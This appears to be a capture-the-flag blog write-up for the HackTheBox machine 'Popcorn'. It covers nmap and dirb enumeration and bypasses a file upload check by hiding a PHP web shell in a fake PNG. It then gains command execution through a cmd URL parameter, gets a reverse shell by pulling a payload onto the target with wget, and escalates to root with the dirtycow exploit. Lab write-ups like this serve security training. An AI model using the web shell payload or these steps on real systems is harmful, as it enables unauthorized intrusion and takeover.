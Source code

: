 # **Popcorn**

![1697021818482.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1697021818482.png)



![1696924564296.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696924564296.png)

This is the beginning of my hackthebox series, and our first machine would be popcorn.

Popcorn, while not overly complicated, contains quite a bit of content and it can be difficult for some users to locate the proper attack vector at first. This machine mainly focuses on different methods of web exploitation.

Let's Dig in, first, we start by spawnning up the machine in hackthebox and retrive the provided ip address

![1696924977285.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696924977285.png)

we then now use nmap to scan the network for available ports, this the result of nmap:

```bash
# Nmap 7.93 scan initiated Mon Oct  9 13:41:24 2023 as: nmap -sV -sC -oA nmap 10.129.92.90
Nmap scan report for 10.129.92.90
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  9 13:42:38 2023 -- 1 IP address (1 host up) scanned in 73.66 seconds

```

In the above result we could see ssh and a web server ports opened, we navigate to the site using the ip address and got this:

![1696925794586.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696925794586.png)

Next, we try to perform path enumeration using dirb:

```bash
dirb http://10.129.92.90 -r -o tmp.dirb

```

the -r means no directory traversal and -o means to save output to tmp.dirb, after running for some time we got the following result:

```bash

-----------------
DIRB v2.22  
By The Dark Raver
-----------------

OUTPUT_FILE: tmp.dirb
START_TIME: Mon Oct  9 13:44:41 2023
URL_BASE: http://10.129.92.90/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.129.92.90/ ----
+ http://10.129.92.90/cgi-bin/ (CODE:403|SIZE:288)
+ http://10.129.92.90/index (CODE:200|SIZE:177)
+ http://10.129.92.90/index.html (CODE:200|SIZE:177)
+ http://10.129.92.90/server-status (CODE:403|SIZE:293)
+ http://10.129.92.90/test (CODE:200|SIZE:47348)
==> DIRECTORY: http://10.129.92.90/torrent/

-----------------
END_TIME: Mon Oct  9 14:01:41 2023
DOWNLOADED: 4612 - FOUND: 5

```

we try accessing the '/test' endpont and only got the default apache test page with nothing much to scavenge, the rest of the endpoint only shows the previous "it works...." page

we then check the "/torrent" endpoint and saw a torrent upload service:

![1696926161702.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696926161702.png)

Accessing the '/torrent' end point redirects us to  "popcorn.htb", which was showing Not found error, this may me a dns problem, so we solved it by adding the ip address and domain name to our /etc/host file:

![](./pop1.png)

After successfully accessing the site, we then click on login to login with default admin credentials and got incorrect credentials, we then try to create an account;

We check arround the page and search for common vulnerability we can exploit to get into the system, we saw and upload service that only accepts torrent files so we try uploading one:

![1696926572348.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696926572348.png)

we upload a movie torrent file to the site

![1696926927344.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696926927344.png)

we try exploiting this upload service to upload our php shell file but no luck, since it only accepts torrent files only after going through so many checks, after uploading the torrent file, we colud see a screenshot image which we could update by uploading another picture:

![1696927059547.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696927059547.png)

As shown above, we could only upload a file with an email extension. so let's prepare our payload;

We create a blank file in png file Format

To create a blank file for the checking purpose, execute the following command.

```bash
convert -size 32x32 xc:white test.php
```

after running the command we have a blank image file.

we could see the created file is a png image, next we embed our payload:

we put the following in the middle of the file:

```php
<?php echo system($_GET['cmd']); ?>
```

![1696927404204.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696927404204.png)

One more step, we need to add a png extension so that it passes the extension validaton:

we add .png to the file extension:

![1696936394167.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696936394167.png)

we can now upload this file to the server and we got a successful upload message 🎉️

Next off, is to find where this image is uploaded, let's check the upload section:

![1696936702056.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696936702056.png)

we could see our uploaded payload with the .php extension, let's try accessing it:

![1696936804810.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696936804810.png)

we could now see the payload executing, let's try listing the directory:

using:

```http
http://popcorn.htb/torrent/upload/86adccf057ac813938d277c05334239eaf7ebd3d.php?cmd=ls%20-al
```

![1696936863300.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696936863300.png)

Hurray, we now have code execution 🎉️

# **Getting Reverse Shell**

To get a reverse shell we need to prepare our payload and upload it into the server;

we do this by hosting a http server in where our payload is hosted on port 7000

![1696945127248.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945127248.png)

we then use wget to download this payload on the server and saved it as gear2.php, we use url encode:

![1696945222090.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945222090.png)

Request payload

![1696945256499.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945256499.png)

after sending the request we could confirm that the payload is on the server saved as gear2.php:

![1696945293919.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945293919.png)

we setup a netcat listener on port 9000; all this as been configured in the gear2.php payload sent earlier with our ip address and port of 9000:

![1696945393375.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945393375.png)

After clicking on gear2.php we get a reverse shell:

![1696945432233.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945432233.png)

we extract the user hash stored in user george home directory and submit:

![1696945660927.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1696945660927.png)

# **Priviledge Escalation**

Time to use gear 3 for priviledge escalation 😄

we use [dirtycow](https://github.com/FireFart/dirtycow/blob/master/dirty.c) for gear 3, we download it and host it using our simple http server, and downloaded it in the machine

![1697021456679.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1697021456679.png)

we then use the following command to compile it

```bash
 gcc -pthread gear3.c -o gear3 -lcrypt
```

Then we run the executable:

![1697021540647.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1697021540647.png)

After running the compiled executable, it creates a new user called firefart with a password configured by us,

we then try to login using that user name and password:

![1697021664453.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1697021664453.png)

we now have root priviledges, so lets get the root hash:

![1697021696161.png](https://cyberguru1.github.io/posts/hackthebox/popcorn/1697021696161.png)

And we have successfully pwned popcorn.

